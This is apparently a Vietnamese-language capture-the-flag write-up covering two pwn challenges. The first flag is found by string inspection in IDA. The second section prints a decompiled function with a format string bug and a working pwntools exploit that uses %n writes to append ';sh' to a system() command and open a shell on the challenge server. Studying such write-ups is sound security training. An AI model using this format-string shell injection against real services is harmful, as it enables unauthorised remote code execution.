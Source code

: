 ## pwn/A gift for pwners

{{< admonition note "Challenge Information" >}}
* 40 solves / 100 pts
* **Given files:** [gift](https://wru-my.sharepoint.com/:u:/g/personal/2251272678_e_tlu_edu_vn/EX1Y8Dum-21OjKYxOWeahqsBx8Jv0sr4Pl6OJ-wfv2s2pQ?e=ImvXPj)
* **Description:** Just find flag in file, no need netcat
{{< /admonition >}}

**Solution**

Load file vào IDA64, dùng shortcut Shift + F12 để kiểm tra các string, ta có được phần đầu và phần cuối của flag là `KCSC{A_gift_` và `pwners_0xdeadbeef}`. 

Kiểm tra hàm `secret`, ta có được phần giữa của flag là `for_the_`. 

Flag đầy đủ của bài toán là `KCSC{A_gift_for_the_pwners_0xdeadbeef}`

## pwn/Format

{{< admonition note "Challenge Information" >}}
* 0 solve / 500 pts / by Nuuuuuuuu
* **Given files:** [format.zip](https://wru-my.sharepoint.com/:u:/g/personal/2251272678_e_tlu_edu_vn/EbjKR1jipvdJm4ZWwXLa2BoBNfwJJSKf2qcXOf8r3JsC7w?e=mpBn7N)
* **Description:** You don't have to do anything, i will printf the flag for you^^\
`nc 103.162.14.116 12001`
{{< /admonition >}}

**Solution**

Load file vào IDA64, dễ thấy có lỗ hổng FMT ở dòng `printf(buf)`

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
    char buf[40]; // [rsp+10h] [rbp-30h] BYREF
    unsigned __int64 v5; // [rsp+38h] [rbp-8h]

    v5 = __readfsqword(0x28u);
    puts("Do you want to get flag^^");
    buf[read(0, buf, 0x25uLL)] = 0;
    printf(buf);
    system(cmd);
    return 0;
}
```

Chương trình gọi hàm `system` với `cmd` là một câu lệnh echo. Ý tưởng để giải bài này sẽ là tận dụng bug FMT viết thêm chuỗi `;sh` sau câu lệnh đó để lấy shell. 

```python
from pwn import *

elf = ELF("./format", checksec = False)

# p = process(elf.path)
p = remote("103.162.14.116", 12001)
pause()

write_addr = 0x4040B5
sh = 0x68733b # ;sh 

pay = f"%{sh}c%10$n".encode().ljust(0x10, b"\x00") + p64(write_addr)
p.sendline(pay)

p.interactive()
# KCSC{F1rs1_Pr0b13m_w1Th_pR1Ntf}
```